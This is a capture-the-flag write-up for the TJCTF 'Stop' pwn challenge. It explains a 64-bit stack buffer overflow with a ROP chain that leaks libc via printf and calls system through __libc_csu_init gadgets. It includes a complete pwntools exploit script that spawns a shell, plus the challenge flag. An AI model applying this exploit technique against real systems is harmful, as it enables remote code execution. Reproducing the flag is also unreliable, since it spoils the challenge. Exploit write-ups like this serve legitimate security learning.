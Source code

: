 # Stop
Pwn, 70

>  Written by KyleForkBomb
>  I love playing stop, but I am tired of losing. Check out my new stop answer generator! It's a work in progress and only has a few categories, but it's 100% bug-free!
>  nc p1.tjctf.org 8001

This is another buffer overflow challenge. Since the binary is 64 bit, arguments are passed in registers, making ROP slightly more difficult. Luckily, we can use a couple gadgets in `__libc_csu_init` (`pop` and `call` in the script below) to set up arguments. We leak a libc address with printf, set up a `system`'s address and argument in `bss`, and use the `__libc_csu_init` gadgets again to get a shell.

```python
from pwn import *
import time

pop = 0x40094a
call = 0x400930
read = 0x4008e0
bss = 0x602000
getchar = 0x601fe8
pread = 0x400398
printf = 0x4005a0
rdi = 0x400953
main = 0x40073c

got = 0x601fe0

#p = process("./stop")
p = remote("p1.tjctf.org", 8001)
#gdb.attach(p)
p.sendline("a")
p.sendline("A"*256+"B"*24+p64(0x40056e)+p64(rdi)+p64(got)+p64(printf)+p64(pop)+p64(0)+p64(1)+p64(pread)+p64(0)+p64(bss)+p64(0x4141)+p64(call)+p64(0)+p64(0)+p64(1)+p64(bss+8)+p64(bss)+p64(0)+p64(0)+p64(0x40056e)+p64(call))
p.recvuntil("yet\n")
printf = u64(p.recvuntil("\x7f")+"\x00\x00")
system = printf-0x15a40
#system = printf-0xE2A0
print(hex(system))
p.sendline("/bin/sh\x00"+p64(system))
p.interactive()
```

Flag: `tjctf{st0p_th4t_r1ght_now}`